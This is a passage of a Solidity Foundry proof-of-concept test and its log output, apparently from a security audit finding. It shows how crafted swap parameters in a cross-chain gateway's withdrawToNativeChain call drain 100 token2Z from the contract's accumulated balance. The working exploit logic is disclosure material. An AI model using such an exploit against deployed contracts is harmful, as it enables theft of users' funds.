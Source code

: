 ```solidity
            targetZRC20, // Target token2Z
            sender,
            receiver,
            swapDataZ,
            contractAddress,
            abi.encodePacked(fromTokenB, toTokenB, swapDataB),
            accounts
        );

        uint256 user2_before = token2B.balanceOf(user2); // Check token2B since that's what user receives
        uint256 contract_before = token2Z.balanceOf(address(gatewayTransferNative));

        console.log("BEFORE - user2 token2B:", user2_before / 1e18);
        console.log("BEFORE - contract token2Z:", contract_before / 1e18);

        vm.startPrank(user1);
        token1Z.approve(address(gatewayTransferNative), amount);
        gatewayTransferNative.withdrawToNativeChain(address(token1Z), amount, message);
        vm.stopPrank();

        uint256 user2_after = token2B.balanceOf(user2); // Check token2B
        uint256 contract_after = token2Z.balanceOf(address(gatewayTransferNative));
        uint256 received = user2_after - user2_before;
        uint256 drained = contract_before - contract_after;

        console.log("AFTER - user2 token2B:", user2_after / 1e18);
        console.log("AFTER - contract token2Z:", contract_after / 1e18);
        console.log("USER RECEIVED:", received / 1e18, "token2B");
        console.log("DRAINED from contract:", drained / 1e18, "token2Z");

        if (received > 0 && drained > 0) {
            console.log("VULNERABILITY CONFIRMED!");
            console.log("User paid token1Z, contract lost token2Z, user got token2B!");
            console.log("Tokens stolen from accumulated balance!");
        } else {
            console.log("No theft occurred");
        }
    }
}
```

Test Results:

```text
[PASS] test_POC_Param_Attack() (gas: 673620)
Logs:
  gatewayTransferNative has token2Z: 150
  gatewaySendB has token2Z: 150
  BEFORE - user2 token2B: 0
  BEFORE - contract token2Z: 150
  AFTER - user2 token2B: 98
  AFTER - contract token2Z: 50
  USER RECEIVED: 98 token2B
  DRAINED from contract: 100 token2Z
  VULNERABILITY CONFIRMED!
  User paid token1Z, contract lost token2Z, user got token2B!
  Tokens stolen from accumulated balance!

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 10.68s (237.92ms CPU time)
```
